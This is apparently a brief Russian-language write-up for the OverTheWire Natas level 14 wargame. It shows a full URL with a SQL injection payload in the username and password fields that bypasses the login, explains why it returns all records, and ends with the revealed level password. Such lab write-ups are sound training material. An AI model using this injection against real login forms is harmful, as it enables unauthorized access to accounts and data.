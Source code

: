 тут зашла простая sql иньекция
http://natas14.natas.labs.overthewire.org/?username=" or not username="" or username="&password=" or not password="" or password="&debug=true

username=" or not username="" or username="
&
password=" or not password="" or password="&debug=true

где первые username, password - ключи http запроса
все что следует после них, непосредственно иньекции
получается простейшее выражение
вывести все записи в которых username/password НЕ равны пустоте, то есть все

SdqIqBsFcz3yotlNYErZSZwblkm0lrvx